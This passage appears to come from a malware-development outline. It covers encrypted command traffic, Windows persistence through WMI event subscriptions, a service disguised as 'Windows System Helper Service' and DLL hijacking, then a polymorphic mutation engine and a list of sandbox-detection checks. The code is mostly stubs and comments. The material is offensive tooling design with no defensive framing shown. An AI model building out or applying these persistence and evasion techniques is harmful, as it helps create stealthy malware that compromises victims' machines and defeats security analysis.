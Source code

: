 #### C. Encrypted Communications
- AES-256 for data encryption
- RSA for key exchange
- Perfect forward secrecy
- Traffic obfuscation

### 5. Advanced Persistence

#### A. WMI Event Subscription
```python
def create_wmi_persistence():
    """WMI event-based persistence"""
    wmi_filter = """
    SELECT * FROM __InstanceModificationEvent 
    WITHIN 60 WHERE TargetInstance ISA 
    'Win32_PerfFormattedData_PerfOS_System'
    """
    # Create filter, consumer, and binding
```

#### B. Service Creation
```python
def create_service_persistence():
    """Create Windows service"""
    service_name = "WindowsSystemHelper"
    display_name = "Windows System Helper Service"
    binary_path = f'"{sys.executable}" --service'
    
    # Create service with SC command
    # Set to auto-start
    # Add failure recovery
```

#### C. DLL Hijacking
- Identify vulnerable applications
- Plant malicious DLLs
- Maintain legitimate functionality

### 6. Evasion Enhancements

#### A. Polymorphic Engine
```python
class PolymorphicEngine:
    def mutate_code(self, code):
        """Generate unique variant each execution"""
        # Dead code insertion
        # Instruction substitution
        # Control flow obfuscation
        # Encryption layer changes
```

#### B. Sandbox Detection & Evasion
```python
def advanced_sandbox_detection():
    checks = [
        check_sleep_acceleration(),
        check_mouse_movement(),
        check_cpu_cores(),
        check_disk_size(),
        check_uptime(),
        check_human_interaction(),
        check_network_diversity(),
        check_process_tree()
    ]
```